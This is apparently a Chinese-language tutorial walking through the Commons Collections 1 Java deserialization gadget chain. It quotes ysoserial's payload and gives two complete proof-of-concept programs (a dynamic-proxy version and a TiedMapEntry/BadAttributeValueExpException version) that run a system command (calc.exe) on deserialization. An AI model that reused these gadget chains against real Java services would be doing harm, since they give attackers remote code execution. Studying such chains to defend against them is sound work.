









## 背景
在ysoserial中CC1的payload中使用了`LazyMap`，`LazyMap`和`TransformedMap`类似，都继承 `AbstractMapDecorator`



我们可以先看看payload

```java
package ysoserial.payloads;

import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
@SuppressWarnings({"rawtypes", "unchecked"})
@PayloadTest ( precondition = "isApplicableJavaVersion")
@Dependencies({"commons-collections:commons-collections:3.1"})
@Authors({ Authors.FROHOFF })
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {

	public InvocationHandler getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

		final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

		Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

		return handler;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections1.class, args);
	}

	public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}

```
效果如下



`TransformedMap`是在写入元素的时候执行`transform`方法，`LazyMap`是在其`get`方法中执行的 `this.factory.transform`
`LazyMap`的作用是“懒加载”，在get找不到值的时候，它会调用 `this.factory.transform` 方法去获取一个值

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```
factory也是可控的
```java
protected LazyMap(Map map, Transformer factory) {
    super(map);
    if (factory == null) {
        throw new IllegalArgumentException("Factory must not be null");
    }
    this.factory = factory;
}
```
所以构造poc的时候只要令`factory`为精心构造的`ChainedTransformer`就行，因此我们找一下哪里可能调用了`LazyMap`的`get`方法
但是我们在`AnnotationInvocationHandler#readObject`函数中并没有看到有执行`get方法`，所以ysoserial找到了另一条路，`AnnotationInvocationHandler`类的`invoke方法`有调用到`get`：



`AnnotationInvocationHandler#invoke`看到`invoke`方向就大概联想到Java的动态代理机制。

## 动态代理
> 总结为一句话就是，被动态代理的对象调用任意方法都会通过对应的InvocationHandler的invoke方法触发

这里再举个例子说明一下如何自动调用的`invoke`方法
> InvocationHandlerExample.class

`InvocationHandlerExample`类继承了`InvocationHandler`，实现了`invoke`方法，作用是在监控到调用的方法名是get的时候，返回一个特殊字符串 Hacked Object 。

```java
package com.myproject;

import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        InvocationHandlerExample invocationHandlerExample = new InvocationHandlerExample(new HashMap());
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},invocationHandlerExample);
        proxyMap.put("1","Hacked Object");
        System.out.println(proxyMap.get("1"));
    }
}
```


可以看到调用的`get`方法，但是被我们动态代理中的`invoke`方法拦截了，返回了`Hacked Object`
也就是说这个Map对象经过动态代理处理之后，动态代理对象调用任何一个方法时会调用**`handler`中的`invoke`方法**。

我们回看`sun.reflect.annotation.AnnotationInvocationHandler`，会发现实际上这个类实际就是一个`InvocationHandler`，我们如果将这个对象用Proxy进行代理，那么在`readObject`的时候，只要调用任意方法，就会进入到`AnnotationInvocationHandler#invoke`方法中，进而触发我们的`LazyMap#get`



## 构建POC
对`sun.reflect.annotation.AnnotationInvocationHandler`对象进行Proxy
```java
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
// 构建对象
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, outerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);  // 代理对象
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);  // 包裹
```
```java
package com.myproject;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import javax.swing.*;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        innerMap.put("a", 1);
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        // 构建对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);  // 代理对象
        handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);  // 包裹


        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(handler);

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        objectInputStream.readObject();
    }
}
```


## LazyMap 利用链补充
CC1受限制于jdk1.7，上面的poc使用了动态代理，那么有没有不使用动态代理的方法呢？（当然这里依然还是使用jdk1.7)
`LazyMap`类的`get方法`中调用了`transform`方法，那么除了`AnnotationInvocationHandler`的`invoke`方法中调用了get方法外，还有，`TiedMapEntry`类的`getValue`方法也调用了`get方法`



而且`this.map`我们也可以控制，但是我们最终要找的还是`readObject方法`中的触发点，所以继续网上找，看看哪里调用了`TiedMapEntry`的`getValue`方法，找到`TiedMapEntry`类的`toString`方法



`toString方法`在进行字符串拼接或者手动把某个类转换为字符串的时候会被调用，所以，现在我们找找**把`TiedMapEntry`的对象当做字符串处理的地方**，找到了`BadAttributeValueExpException`的`readObject`方法中有相关调用：



可以看到第三个if分支里调用了`valObj.toString()`,而`valObj=gf.get("val", null)`,这里其实就是读取传过来对象的`val`属性值，所以，**只要我们控制**`**BadAttributeValueExpException**`**对象的**`**val属性**`**的值为我们精心构造的**`**TiedMapEntry**`**对象就行**。所以，就有了下面的poc:

```java
package com.myproject;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import javax.management.BadAttributeValueExpException;
import javax.swing.*;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        innerMap.put("a", 1);
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        // 构建对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"123");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        objectInputStream.readObject();
    }
}
```
